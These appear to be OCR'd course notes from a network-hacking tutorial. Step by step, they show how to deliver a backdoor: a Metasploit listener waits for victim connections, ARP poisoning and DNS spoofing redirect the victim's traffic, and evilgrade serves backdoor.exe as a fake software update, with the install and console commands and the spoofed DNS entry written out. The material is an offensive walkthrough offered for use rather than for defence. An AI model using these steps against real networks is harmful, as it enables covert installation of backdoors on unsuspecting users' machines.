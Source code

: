 
▶️> exploit

Now metasploit is listening for incomming connection, now when anyone opens the payload will be connected.



Now as this is a network hacking course lets use a method to deliver the payload:

[ we must be in the man in the middle ]

lets create a fake update.


Lets do dns spoofing with arp poisoning


Now we are in the same network of the victim (wired or wireless, no matters)

We will use a tool called evil grade which will act as a server to produce fake updates.


	https://github.com/infobyte/evilgrade.git

	cd evilgrade
	cpan Data::Dump
	cpan Digest::MD5
	cpan Time::HiRes
	cpan RPC::XML
	sometime it gives an error about gnu.pm remove it by:
	apt-get remove libterm-readline-gnu-perl
	and reinstall again:
	apt-get install libterm-readline-gnu-perl
	
	
Evilgrade is simalar to use like metasploit

	▶️> ./evilgrade
	▶️> show modules
	▶️> configure dap  (dap is the module's name)
	▶️> show options
	▶️> set agent /var/www/html/backdoor.exe  (set agent to our backdoor file/the programm to install as the update in target and path)
	▶️> show options
	▶️> start


Now basically anytime evilgrade get a request for an update, it will tell whoever is requesting for an update that there is an update and it will server the backdoor as the update.


There we can see an option called virtual host and there will be a link. Thats the link of the update. So we need to redirect the victim to that link.
Lets to dns spoofing for that:

	▶️> nano /etc/mitmf/mitmf.conf
	▶️> change dns port to 5353 because evilgrade uses that  pory
	Now go to the [[[A]]] part as we did far erlier:
	update.speedbit.com=10.200.14.201 (this is our own ip and update.speedbit.com is the virtual host url.)
	